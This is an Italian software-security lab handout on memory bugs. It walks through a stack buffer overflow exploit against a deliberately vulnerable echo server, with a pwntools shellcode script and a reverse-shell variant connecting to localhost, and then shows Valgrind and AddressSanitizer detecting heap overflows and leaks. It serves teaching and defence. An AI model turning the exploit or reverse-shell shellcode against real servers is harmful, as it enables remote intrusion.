# Memory Management Vulnerabilities

## Buffer Overflow

### Setup

Il seguente esempio mostra un programma vulnerabile a buffer overflow, e di come sia possibile effettuare l'attacco.

Il programma è disponibile nella macchina virtuale nella cartella `swsec-labs/buffer-overflow/demo`, e nel repository online su <https://github.com/swsec-book/swsec-labs/>.

Il programma è un semplice server *echo*, che chiede al client di inviare una stringa, e che risponde con una copia della stessa stringa. È possibile utilizzare il tool *netcat* come client (comando `nc`), indicando il porto TCP 4001.



Il server è stato modificato per chiamare una funzione vulnerabile (`copier()`), a cui viene passato in ingresso la stringa inviata dal client (*payload*).

```C
    ...
    n = write(newsockfd, "Welcome to my server!  Type in a message!\n", 43);
    n = read(newsockfd, buffer, 4095);
    copier(buffer);     // VULNERABLE FUNCTION

    printf("Here is the message: %s\n", buffer);
    strcpy(reply, "I got this message: ");
    strcat(reply, buffer);

    n = write(newsockfd, reply, strlen(reply));
    ...
```

```
int copier(char *str) {
    char buffer[1024];
    strcpy(buffer, str);	 // VULNERABLE FUNCTION!
}
```

La funzione copia la stringa su un buffer allocato sullo stack. Se la stringa eccede 1024 byte, è possibile innescare un buffer overflow sullo stack. In figura, viene inviata una stringa di 1200 caratteri generata tramite Python. Il server viene terminato forzatamente dal sistema operativo (errore di *segmentation fault*).



### Analisi mediante debugger

È possibile analizzare lo stato del processo e del suo stack al momento del buffer overflow, utilizzando `gdb` con il modulo **pwndbg**. Il debugger mostra che il programma termina al momento della uscita dalla funzione `copier()`.

L'istruzione finale `ret` alla fine della funzione tenta di prelevare gli 8 byte sulla cima dello stack (all'indirizzo `0x00007FFFFFFFBB98`), e di utilizzare quel valore come indirizzo di ritorno. Poiché l'indirizzo non è valido, il processore genera una eccezione, a cui il sistema operativo risponde uccidendo il processo.










Per semplificare lo sviluppo di un attacco a questa vulnerabilità, è necessario disattivare alcune difese introdotte dal compilatore e dal sistema operativo.

Per disattivare la randomizzazione degli indirizzi di memoria, utilizzare il comando:

```
$ sudo sysctl -w kernel.randomize_va_space=0
```

Per disattivare le protezioni allo stack inserite dal compilatore (stack non eseguibile, word canarino), compilare il server con il comando:

```
$ gcc  -fno-stack-protector  -z execstack  -g vuln_server.c  -o vuln_server
```


Per sviluppare un exploit di questa vulnerabilità, è prima necessario determinare quale parte del payload va a sovrascrivere l'indirizzo di ritorno sullo stack. È possibile usare il comando `cyclic` fornito dalla libreria **pwntools**.

```
$ cyclic -n 8 1200 > payload_cyclic
```

È possibile ora inviare al server vulnerabile il payload dal file `payload_cyclic`:

```
$ cat payload_cyclic | nc localhost 4001
```

Si osserva nel debugger che `eaaaaaaf` è la sotto-stringa sulla cima dello stack al momento dell'eccezione. Questo indica che quella sotto-stringa ha sovrascritto l'indirizzo di ritorno sullo stack.





Per determinare la posizione relativa della sotto-stringa all'interno del payload, è possibile usare di nuovo il comando `cyclic` come segue. In questo caso, la sotto-stringa è alla posizione 1032 del payload.

```
$ cyclic -n 8 -l eaaaaaaf
```



### Exploitation

È possibile sfruttare questa vulnerabilità per iniettare uno shellcode nel server vulnerabile. Il seguente script genera un payload nel file `shellcode_payload`, che contiene al suo interno:

- Un riempitivo di istruzioni macchina `NOP`.
- Il codice macchina di uno shellcode che stampa il messaggio *Hello world!!*, e che chiama la funzione `exit()`.
- Un ulteriore riempitivo di 64 byte.
- L'indirizzo di memoria dello shellcode, alla posizione 1032 del payload.

Si precisa che lo shellcode è in memoria nel punto in cui è stato copiato il payload, che può essere determinato sottraendo il valore 1032 dalla posizione della sotto-stringa in memoria che ha sovrascritto l'indirizzo di ritorno. In questo caso, la sotto-stringa è all'indirizzo dello stack pointer al momento del buffer overflow (`0x00007FFFFFFFBB98`).

```python
from pwn import *
context.arch='amd64'
context.os='linux'

# Generate shellcode
s_code = shellcraft.amd64.linux.echo('Hello world!!') + shellcraft.amd64.linux.exit()
s_code_asm = asm(s_code)

# Return address in little-endian format
ret_addr = 0x00007FFFFFFFBB98 - 1032
addr = p64(ret_addr, endian='little')

# Opcode for the NOP instruction (for NOP sled)
nop = asm('nop', arch="amd64")

# Writes payload on a file
payload = nop*(1032 - len(s_code_asm) - 64)  +  s_code_asm  +  nop*64  +  addr

with open("./shellcode_payload", "wb") as f:
        f.write(payload)
```



È possibile modificare lo script precedente per iniettare una **reverse shell** nel server vulnerabile. Occorre modificare la variabile `s_code` come segue:

```
# Shellcode for opening a "reverse shell"
s_code = shellcraft.amd64.linux.connect('127.0.0.1', 12345) + shellcraft.amd64.linux.dupsh('rbp')
s_code_asm = asm(s_code)
```

Lo shellcode aprirà una connessione verso `127.0.0.1` al porto TCP 12345. Prima di lanciare l'attacco, è necessario avviare un server in ascolto su questo porto, ad esempio tramite il comando netcat. Dopo aver lanciato l'attacco, sarà possibile digitare dei comandi della shell nel programma netcat, che saranno eseguiti dal processo server.



Si rimarca che gli esempi precedenti di shellcode sono eseguibili solo nel caso che il processo server sia eseguito tramite `gdb`. Se il server viene avviato senza `gdb`, si modifica la posizione in memoria dello shellcode, rendendolo inefficace. Per correggere l'attacco, è necessario modificare l'indirizzo di ritorno da sovrascrivere sullo stack, modificando la variabile `ret_addr` nello script.

```
ret_addr = 0x00007FFFFFFFBB98 - 1032 + 128
addr = p64(ret_addr, endian='little')
```


## Sanitizers

### Valgrind

I programmi di esempio qui mostrati sono disponibili nella macchina virtuale nella cartella `examples/sanitizer-examples`, e nel repository online su <https://github.com/swsec-book/sanitizer-examples/>.

Il primo esempio è il programma `titanic.c`, il cui nome è un riferimento al famoso naufragio dovuto allo scontro (*crash*) con un iceberg. Il programma prende in ingresso un numero intero, e stampa ripetutamente a video un messaggio con il valore di un contatore.

Se si esegue il programma in ambiente Ubuntu 20.04 (compilatore gcc 9.3.0), si ottiene il seguente output.

```
$ docker run -it rnatella/ubuntu:20.04
...
$ ./titanic 10
  1 miles, still unsinkable!
  2 miles, still unsinkable!
  3 miles, still unsinkable!
  4 miles, still unsinkable!
  5 miles, still unsinkable!
  6 miles, still unsinkable!
  7 miles, still unsinkable!
  8 miles, still unsinkable!
  9 miles, still unsinkable!
 10 miles, still unsinkable!
```

Il programma contiene almeno tre difetti:

- una lettura di variabile non inizializzata (linea 15);
- uno heap buffer overflow (linea 18);
- un memory leak (linea 42-43).

Nonostante questi difetti, è possibile che il programma esegua in maniera apparentemente corretta, senza mostrare malfunziamenti.

Tuttavia, in alcuni casi possono verificarsi dei malfunzionamenti, come ad esempio il crash del processo o la stampa di valori irragionevoli. L'esito del programma dipende dal sistema in cui viene eseguito.

Ad esempio, se si esegue il programma in ambiente Ubuntu 12.04 (compilatore gcc 4.6.3), si ottiene il seguente output errato.

```
$ docker run -it rnatella/ubuntu:12.04
...
$ ./titanic 10
  1 miles, still unsinkable!
134514201 miles, still unsinkable!
134514202 miles, still unsinkable!
134514203 miles, still unsinkable!
134514204 miles, still unsinkable!
134514205 miles, still unsinkable!
134514206 miles, still unsinkable!
134514207 miles, still unsinkable!
134514208 miles, still unsinkable!
134514209 miles, still unsinkable!
```

Compilando il programma con il parametro `-O2`, il compilatore genera un eseguibile differente dal caso precedente, per ottimizzarne l'esecuzione. Il programma che ne risulta va però in crash.

```
$ make CFLAGS="-O2"
$ ./titanic 1000
...
999 miles, still unsinkable!
*** buffer overflow detected ***: terminated
Annullato (core dump creato)
```

I malfunzionamenti sono influenzato dallo stato del sistema operativo, del processore, e della memoria, e dal compilatore che è stato usato per compilare il programma. Le operazioni errate (scrittura fuori dai limiti di un buffer, lettura di un'area di memoria non inizializzata) sono dette **undefined behavior** nel linguaggio di programmazione C, perché il comportamento del programma in queste operazioni non è soggetto a regole del linguaggio, ma è determinato dallo specifico sistema su cui è eseguito.

Utilizzando Valgrind, è possibile rilevare il difetto nonostante non vi siano sintomi apparenti.
Nel caso del primo difetto, Valgrind riporta il messaggio *Use of uninitialized value*.

```
$ valgrind --track-origins=yes ./titanic 10

==18378== Memcheck, a memory error detector
==18378== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
==18378== Using Valgrind-3.17.0 and LibVEX; rerun with -h for copyright info
==18378== Command: ./titanic 10
==18378== 
==18378== Use of uninitialised value of size 8
==18378==    at 0x4CBC81B: _itoa_word (_itoa.c:179)
==18378==    by 0x4CD86F4: __vfprintf_internal (vfprintf-internal.c:1687)
==18378==    by 0x4CE6278: __vsprintf_internal (iovsprintf.c:95)
==18378==    by 0x4CC3047: sprintf (sprintf.c:30)
==18378==    by 0x1091FF: full_steam_ahead (titanic.c:18)
==18378==    by 0x10925B: main (titanic.c:42)
==18378==  Uninitialised value was created by a stack allocation
==18378==    at 0x1091A9: full_steam_ahead (titanic.c:10)
```

Al termine della esecuzione del programma, Valgrind riporta le aree di memoria dinamica che non sono state deallocate, e che rappresentano dei potenziali memory leak (*definitely lost*). Utilizzando l'opzione `--leak-check=full`, Valgrind riporta i punti del programma in cui le aree di memoria sono state allocate.

```
$ valgrind --leak-check=full ./titanic 10
... 
==18480== HEAP SUMMARY:
==18480==     in use at exit: 300 bytes in 10 blocks
==18480==   total heap usage: 11 allocs, 1 frees, 1,324 bytes allocated
==18480== 
==18480== 300 bytes in 10 blocks are definitely lost in loss record 1 of 1
==18480==    at 0x4A38FB5: malloc (vg_replace_malloc.c:380)
==18480==    by 0x1091D9: full_steam_ahead (titanic.c:17)
==18480==    by 0x109262: main (titanic.c:42)
==18480== 
==18480== LEAK SUMMARY:
==18480==    definitely lost: 300 bytes in 10 blocks
==18480==    indirectly lost: 0 bytes in 0 blocks
==18480==      possibly lost: 0 bytes in 0 blocks
==18480==    still reachable: 0 bytes in 0 blocks
==18480==         suppressed: 0 bytes in 0 blocks
```


Infine, Valgrind riporta tutti i casi di heap buffer overflow, inclusi quelli che non causano il crash del programma.

```
$ valgrind ./titanic 1000
...
999 miles, still unsinkable!
==18671== Invalid write of size 1
==18671==    at 0x4CE627E: __vsprintf_internal (iovsprintf.c:97)
==18671==    by 0x4CC3047: sprintf (sprintf.c:30)
==18671==    by 0x109226: full_steam_ahead (titanic.c:21)
==18671==    by 0x109282: main (titanic.c:45)
==18671==  Address 0x4e6ab3e is 0 bytes after a block of size 30 alloc'd
==18671==    at 0x4A38FB5: malloc (vg_replace_malloc.c:380)
==18671==    by 0x1091F9: full_steam_ahead (titanic.c:20)
==18671==    by 0x109282: main (titanic.c:45)
...
```


Il secondo esempio è il programma `test.c`, anche esso presente sia nella cartella `examples/sanitizer-examples`, e nel repository online su <https://github.com/swsec-book/sanitizer-examples/>.

Il programma alloca un array di caratteri sulla memoria heap, ed effettua un accesso errato tramite il puntatore. Inoltre, il programma contiene un memory leak, poiché la memoria non viene deallocata.

```
int main() {

    char * p = malloc(100);

    int offset = 200;

    p[offset] = 'A';

}
```

Si riporta di seguito come il programma viene modificato dal sanitizer durante la sua esecuzione (*instrumentazione*). In questo caso, viene introdotta una struttura dati contenitore (*allocations*) in cui si conservano i puntatori alle aree di memoria allocate sullo heap, e la loro dimensione in byte. Ad ogni accesso alla memoria (ad esempio, l'espressione `p[offset]`), il sanitizer aggiunge ulteriori istruzioni per verificare se l'accesso rientra in una area di memoria precedentemente allocata.

Nel caso che la memoria venga allocata (tramite la funzione `free()`, che manca in questo programma di esempio), il valore dell'indirizzo viene rimosso dalla struttura dati contenitore. Al termine del programma, si inserisce una istruzione per verificare la presenza di valori residui nella struttura dati contenitore. Questi casi denotano la presenza di un potenziale memory leak nel programma.

```
int main() {
    allocations.init();                 // inserito dall'instrumentazione


    char * p = malloc(100);
    allocations.insert(p, 100);         // inserito dall'instrumentazione


    int offset = 200;


    if( allocations.find(p+offset) )    // inserito dall'instrumentazione
        print_error(p+offset);
    p[offset] = 'A';


    allocations.find_leaks();           // inserito dall'instrumentazione
}
```

Valgrind riporta entrambe i difetti come segue.

```
$ gcc test.c -o test
$ valgrind --track-origins=yes --leak-check=full ./test
==3556== Memcheck, a memory error detector
==3556== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
==3556== Using Valgrind-3.18.1 and LibVEX; rerun with -h for copyright info
==3556== Command: ./test
==3556== 
==3556== Invalid write of size 1
==3556==    at 0x108780: main (in /home/unina/test)
==3556==  Address 0x4a49108 is 24 bytes inside an unallocated block of size 4,194,032 in arena "client"
==3556== 
==3556== 
==3556== HEAP SUMMARY:
==3556==     in use at exit: 100 bytes in 1 blocks
==3556==   total heap usage: 1 allocs, 0 frees, 100 bytes allocated
==3556== 
==3556== 100 bytes in 1 blocks are definitely lost in loss record 1 of 1
==3556==    at 0x4865058: malloc (in /usr/libexec/valgrind/vgpreload_memcheck-arm64-linux.so)
==3556==    by 0x108763: main (in /home/unina/test)
==3556== 
==3556== LEAK SUMMARY:
==3556==    definitely lost: 100 bytes in 1 blocks
==3556==    indirectly lost: 0 bytes in 0 blocks
==3556==      possibly lost: 0 bytes in 0 blocks
==3556==    still reachable: 0 bytes in 0 blocks
==3556==         suppressed: 0 bytes in 0 blocks
==3556== 
==3556== For lists of detected and suppressed errors, rerun with: -s
==3556== ERROR SUMMARY: 2 errors from 2 contexts (suppressed: 0 from 0)
```

### Address Sanitizer (ASan)

È possibile analizzare il secondo esempio precedente (il programma `test.c`) anche utilizzando Address Sanitizer. L'esempio è presente sia nella cartella `examples/sanitizer-examples`, e nel repository online su <https://github.com/swsec-book/sanitizer-examples/>.


```
$ gcc -fsanitize=address -g -o test test.c
$ ./test
=================================================================
==83099==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x000104802af8 at pc 0x000104727ebc bp 0x00016b6db520 sp 0x00016b6db518
WRITE of size 1 at 0x000104802af8 thread T0
    #0 0x104727eb8 in main test.c:16
    #1 0x185c620dc (<unknown module>)

0x000104802af8 is located 100 bytes after 100-byte region [0x000104802a30,0x000104802a94)
allocated by thread T0 here:
    #0 0x104fcb124 in wrap_malloc+0x94
    #1 0x104727e50 in main test.c:5
    #2 0x185c620dc (<unknown module>)

SUMMARY: AddressSanitizer: heap-buffer-overflow (...) in main+0x88
Shadow bytes around the buggy address:
  0x000100a02800: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02880: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02900: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02980: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02a00: fa fa fa fa fa fa 00 00 00 00 00 00 00 00 00 00
=>0x000100a02a80: 00 00 04 fa fa fa fa fa fa fa fa fa fa fa fa[fa]
  0x000100a02b00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02b80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02c00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02c80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x000100a02d00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable: 00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone: fa
...
==82711==ABORTING
```
